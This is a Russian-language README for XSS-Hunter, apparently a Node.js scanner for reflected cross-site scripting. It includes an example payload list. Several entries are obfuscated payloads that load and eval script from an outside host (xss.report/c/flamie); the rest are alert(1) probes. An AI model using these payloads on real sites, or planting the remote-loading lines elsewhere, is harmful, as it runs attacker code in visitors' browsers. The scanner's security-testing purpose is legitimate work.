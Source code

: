 # XSS-Hunter

XSS-Hunter: Простой Сканер Уязвимостей XSS

XSS-Hunter — это простой, но эффективный сканер для поиска уязвимостей Cross-Site Scripting (XSS) на веб-сайтах. Этот инструмент разработан для автоматического обнаружения отраженных XSS через различные векторы, включая параметры URL, данные форм (GET/POST) и HTTP-заголовки. Он также поддерживает базовый краулинг для обнаружения большего количества потенциально уязвимых страниц.

Основные возможности:

   Сканирование параметров URL: Проверяет GET и POST параметры на наличие отраженных XSS.
   Анализ и тестирование форм: Автоматически извлекает формы со страниц и внедряет пейлоады во все их поля.
  Тестирование HTTP-заголовков: Проверяет распространённые заголовки (User-Agent, Referer, Cookie, X-Forwarded-For) на предмет отражения.
   Базовый краулинг: Обходит страницы целевого сайта для расширения области сканирования.
   Настраиваемые пейлоады и цели: Использует файлы для загрузки списков пейлоадов и целевых URL.
  Логирование результатов: Сохраняет все найденные уязвимости и информацию о сканировании в структурированные файлы логов.
  Верификация XSS (опционально): Позволяет настроить внешний сервер для подтверждения выполнения JavaScript, что снижает количество ложных срабатываний.
  Контроль параллелизма и ретраи: Ограничивает количество одновременных запросов и повторяет неудачные попытки для повышения надёжности.

Начало работы

Чтобы начать пользоваться XSS-Hunter, вам необходимо выполнить несколько простых шагов.
Требования

   Node.js: Убедитесь, что у вас установлена актуальная версия Node.js (рекомендуется LTS). Вы можете скачать её с официального сайта Node.js.

Установка
    Клонируйте репозиторий
    
    git clone https://github.com/iflamie/xss-hunter.git
    
Далее

      cd xss-hunter

(Замените your-username на имя вашего пользователя GitHub после публикации).

Установите зависимости:
Bash

    npm install

Конфигурация

Перед запуском сканера вам нужно настроить файлы с пейлоадами и целевыми URL, а также (опционально) изменить параметры в коде.

   payloads.txt: Создайте этот файл в корневой директории проекта. Каждая строка в нём должна содержать один XSS-пейлоад.
    Пример payloads.txt:

    <script>alert(1)</script> 
    "><script>alert(1)</script>
    '><script>alert(1)</script>
    "><img src=x onerror=alert(1)>
    <svg onload=alert(1)>
    <iframe src="javascript:alert(1)"></iframe>
    <math href="javascript:alert(1)">CLICK</math>
    <video><source onerror="alert(1)">
    <details open ontoggle=alert(1)>
    <marquee onstart=alert(1)>
    <isindex action=javascript:alert(1)>
    <base href="javascript://"><script>alert(1)</script>
    <embed src="data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+">
    <svg><a xlink:href="javascript:alert(1)">CLICK</a></svg>
    "><style>@keyframes x{}</style><svg onload=alert(1)>
    <script/src=data:text/javascript,alert(1)>
    "><script src=//0x7f.0x0/alert(1)></script>
    "><object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==>
    <svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
    <svg><foreignObject><iframe src=javascript:alert(1)></iframe></foreignObject></svg>
    <svg><script xlink:href="data:image/svg+xml,%3Cscript%3Ealert(1)%3C/script%3E"></script></svg>
    "><input autofocus onfocus=alert(1)>
    '"><script src=https://xss.report/c/flamie></script>
    javascript:eval('var a=document.createElement(\'script\');a.src=\'https://xss.report/c/flamie\';document.body.appendChild(a)')
    javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html " onmouseover=/*&lt;svg/*/onload=(import(/https:\xss.report\c\flamie/.source))//>
    %3Cbody%20onload=%22var%20a=document.createElement('script');a.src='https://xss.report/c/flamie';document.body.appendChild(a)%22%3E
    %22%3E%3Cimg%20src=x%20id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veHNzLnJlcG9ydC9jL2ZsYW1pZSI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61;%20onerror=eval(atob(this.id))%3E
    javascript:%22/*'/*%60/*--%3E%3C/noscript%3E%3C/title%3E%3C/textarea%3E%3C/style%3E%3C/template%3E%3C/noembed%3E%3C/script%3E%3Chtml%20%22%20onmouseover=/*&lt;svg/*/onload=(import(/https:%5Cxss.report%5Cc%5Cflamie/.source))//%3E
    %3Cscript%3Efetch(%22//xss.report/c/flamie%22).then(r=%3Er.text()).then(t=%3Eeval(t))%3C/script%3E
    var%20a=document.createElement(%22script%22);a.src=%22https://xss.report/c/flamie%22;document.body.appendChild(a);
    '%22%3E%3Cscript%20src=https://xss.report/c/flamie%3E%3C/script%3E
    "><form><button formaction="javascript:alert(1)">X</button></form>
    "><button formaction="javascript:alert(1)">CLICK</button>
    <svg xmlns="http://www.w3.org/2000/svg"><script href="data:,alert(1)"/>
    "><script id="xss">eval(atob('YWxlcnQoMSk='))</script>
    <iframe srcdoc="<script>alert(1)</script>">
    <svg><animate attributeName="href" values="javascript:alert(1)" />

  url.txt: Создайте этот файл в корневой директории проекта. Каждая строка должна содержать один полный URL целевого сайта, который вы хотите сканировать.
    Пример url.txt:

    http://testphp.vulnweb.com/
    http://www.example.com/

   CONFIG в main.js (опционально): Откройте файл main.js и отредактируйте объект CONFIG в верхней части файла, если вам нужны особые настройки.
    JavaScript

    const CONFIG = {
        payloadsFile: 'payloads.txt',
        targetsFile: 'url.txt',
        logDir: 'log',
        commonPaths: ['/', '/search', '/index.php', '/catalog', '/blog', '/products', '/news', '/admin', '/login', '/register'],
        commonParams: ['q', 's', 'search', 'query', 'term', 'id', 'item', 'page', 'input', 'keywords', 'txt', 'user', 'password'],
        concurrencyLimitPerSite: 5,
        timeout: 30000,
        maxCrawlDepth: 3,
        // --- ОПЦИОНАЛЬНО ---
        // Укажите URL вашего контролируемого сервера для верификации XSS.
        // Если пусто или null, верификация исполнения JS будет пропущена (только проверка отражения).
        // Пример: 'http://your-controlled-server.com'
        verificationServer: null, // ИЗМЕНИТЕ ЭТО НА СВОЙ СЕРВЕР ДЛЯ РЕАЛЬНОЙ ВЕРИФИКАЦИИ!
        // -------------------
        customHeaders: {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36'
        },
        retryAttempts: 3,
        retryFactor: 2,
        retryMinTimeout: 1000,
        retryMaxTimeout: 5000
    };

   Особое внимание уделите verificationServer: Если вы хотите получать реальное подтверждение выполнения XSS-пейлоада (а не только его отражение на странице), вам нужно развернуть простой HTTP-сервер, который будет слушать входящие запросы на указанный URL и записывать их. Если этот параметр null, сканер будет сообщать о "потенциальной XSS" только на основе отражения пейлоада, что может привести к ложным срабатываниям.

Запуск сканера

После настройки файлов и (опционально) CONFIG, вы можете запустить сканер:
Bash

    node main.js

Сканер начнет работу, обходя целевые URL и тестируя их на XSS. Все найденные уязвимости будут записываться в поддиректории внутри папки log/.
Результаты сканирования

Все логи и найденные уязвимости сохраняются в директории log. Для каждого запуска сканера будет создана новая папка вида log N (например, log 1, log 2), а внутри неё — отдельные папки для каждого сканируемого домена. В этих папках вы найдёте текстовые файлы с подробной информацией о найденных XSS, включая URL, использованный пейлоад, параметр и метод запроса.
